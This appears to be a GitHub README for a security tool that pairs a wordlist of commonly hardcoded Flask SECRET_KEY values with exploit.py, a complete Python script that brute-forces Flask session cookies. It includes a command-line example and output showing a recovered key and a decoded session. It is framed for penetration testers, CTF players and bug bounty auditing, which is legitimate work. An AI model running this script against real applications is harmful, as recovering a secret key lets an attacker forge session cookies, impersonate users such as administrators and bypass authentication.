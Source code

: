 
# Flask-Secret-Wordlist

![License: MIT](https://img.shields.io/badge/license-MIT-green)

A curated wordlist of the most commonly hardcoded Flask secret keys — used by developers as placeholders and **never changed in production**. This list is built from real-world analysis, tutorials, boilerplates, and AI-generated code snippets.

> **Why this matters:**  
Misconfigured or predictable `SECRET_KEY` values in Flask apps can **lead to session hijacking, remote code execution, and full account takeover** via crafted cookies or session brute-forcing. This project empowers ethical hackers, CTF players, and bug bounty hunters to audit Flask applications for weak secrets.

---

## Contents

- [`wordlist.txt`](/wordlist.txt) — A large list of common and AI-generated Flask `SECRET_KEY` values.
- [`exploit.py`](/exploit.py) — A placeholder script to brute-force Flask session cookies using the wordlist.

---

## Potential Impact

> If you can guess the `SECRET_KEY`, you may be able to:
- Forge or decrypt Flask session cookies
- Impersonate other users (e.g., admin)
- Modify or inject malicious session data
- Bypass authentication
- Achieve full control in some cases

**Never trust default keys — and always rotate your secrets.**

---

## ⚠️ Legal Disclaimer

This tool is provided for **educational and ethical testing** purposes only. Do not use against targets you don’t have permission to test. I am not responsible for misuse.

---

## [`exploit.py`](/exploit.py)

#### Install dependencies:

```bash
pip install -r requirements.txt
```

The included script ([`exploit.py`](/exploit.py)) can be used to brute-force Flask session cookies using this wordlist:

```python
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import BadSignature
import argparse

class MockApp:
    secret_key = None

def decode_flask_cookie(secret_key, cookie_value):
    app = MockApp()
    app.secret_key = secret_key

    session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)
    if not session_serializer:
        return None

    try:
        data = session_serializer.loads(cookie_value)
        return data
    except BadSignature:
        return None
    except Exception as e:
        print(f"[!] Error with key '{secret_key}': {e}")
        return None

def main():
    parser = argparse.ArgumentParser(description='Brute-force Flask secret key.')
    parser.add_argument('-c', '--cookie', required=True, help='Flask session cookie')
    parser.add_argument('-w', '--wordlist', required=True, help='Path to wordlist')
    args = parser.parse_args()

    with open(args.wordlist, 'r') as f:
        keys = [line.strip() for line in f]

    print(f"[*] Trying {len(keys)} keys...")

    for key in keys:
        result = decode_flask_cookie(key, args.cookie)
        if result is not None:
            print(f"[+] Found key: '{key}'")
            print(f"[+] Decoded session: {result}")
            return

    print("[-] Secret key not found in wordlist.")

if __name__ == '__main__':
    main()
```

---

## Example Usage

```bash
python exploit.py -c "eyJuYW1lIjoiSm9obiBEb2UiLCJyb2xlIjoiam91cm5hbGlzdCJ9.aJUTqw.Jp6vlGEa0zUzviCib2IXNI94qGA" -w wordlist.txt
```

### Output : 

```
[*] Trying 74 keys...
[+] Found key: 'supersecretkey123'
[+] Decoded session: {'name': 'John Doe', 'role': 'journalist'}
```

---

## License

MIT License. Use it freely, contribute, or build on it!

## Contributing

Contributions are welcome!
- Submit new hardcoded keys found in public repos
- Improve the `exploit.py` logic (e.g., multithreading, error handling)
- Suggest corner cases or expand the tool to Django / Rails cookies
